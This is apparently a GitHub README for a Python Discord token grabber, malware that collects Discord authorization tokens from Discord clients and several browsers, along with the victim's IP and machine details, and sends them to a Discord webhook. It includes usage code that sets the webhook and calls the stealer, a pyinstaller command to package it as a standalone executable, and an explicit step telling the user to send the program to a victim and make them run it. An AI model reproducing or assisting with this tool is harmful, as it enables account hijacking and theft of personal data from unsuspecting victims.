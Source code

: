<h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber **only** supports **Windows**.
![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green) 
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
